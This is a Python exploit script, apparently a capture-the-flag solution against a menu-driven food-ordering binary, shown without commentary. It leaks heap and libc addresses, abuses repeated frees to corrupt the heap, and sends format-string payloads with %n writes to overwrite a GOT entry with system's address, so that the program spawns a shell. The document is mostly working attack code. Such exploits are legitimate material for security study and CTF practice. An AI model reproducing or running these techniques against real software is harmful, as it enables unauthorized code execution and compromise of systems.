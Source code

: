 ```python
def item(it):
	r(">")
	s("2")
	r("4. Dave's Single")
	s(str(it))

def de(idx):
	r(">")
	s("3")
	r("Please enter the number of the item from your order that you wish to remove")
	s(str(idx))

def p():
	r(">")
	s("4")

printf_got = 0x602050

item(0)
item(3)
item(1)
p()
r("Item #1: Peppercorn Mushroom Melt")
heap = u64(t.recv(4).ljust(8,'\x00').replace('\n','')) - 0xa0
log.success("heap_base ==> " + hex(heap))

de(2)
de(1)
de(2)
de(0)

name("%" + str(printf_got) + "c%16$n" + "%2c%18$ln")
name(p64(heap))
name("a")
name("b")
name(p64(heap+0x40)*2 + p64(0x602018) + "\x01\x00\x00\x00")

p()
t.recvuntil("Name: ") 
libc = u64(t.recv(6).ljust(8,'\x00')) - 0x844f0
log.success("libc ==> " + hex(libc))
#sys = libc + 0x45216#libc + 0x45390
sys = libc + 0x45390
sys1 = sys >> 32
sys2 = sys & 0xffffffff
s1 = sys2 & 0xffff
s2 = sys2 >> 16
log.success("sys ==> " + hex(sys))
print hex(sys2), hex(s1), hex(s2)

item(4)
item(4)
de(2)
de(1)
de(2)
de(0)

if (s2 > s1) :
	name("%" + str(s1) + "c%24$hn" + "%" + str(s2 - s1) + "c%53$hn;sh\x00")
else :
	name("%" + str(s2) + "c%53$hn" + "%" + str(s1 - s2) + "c%24$hn;sh\x00")
name(p64(heap))
name("a") # 24n
```